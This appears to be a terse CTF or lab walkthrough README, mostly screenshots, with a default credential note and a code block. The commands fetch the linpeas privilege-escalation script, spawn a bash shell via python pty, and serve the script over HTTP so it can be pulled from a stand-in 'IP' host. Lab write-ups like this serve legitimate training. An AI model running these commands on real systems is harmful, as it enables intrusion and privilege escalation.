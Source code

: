 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c4f456bf-481f-4ce8-89cc-fbcaa860062e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6fbb21c5-fa2c-4094-920e-72d3908711bb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc879096-27e7-4a39-9afe-b0e08c7184c4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5a53f455-d6a6-4762-abb6-79e7678dd99a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/be0575eb-eaa8-4b0a-a8b3-11c2e2f13f23)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/56c6897c-1913-48e8-a1dd-9e721e221ce7)

password:password =)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9c250b2d-a230-45f2-beaf-6eb124d31f9d)

```
wget -c https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -m http.server 1234 
wget http://IP:1234/linpeas.sh
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c3bdf2a3-7b17-43cb-98eb-6ecc48889f99)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c17fc64-e3ee-49b2-bba8-43b99faeb5f1)






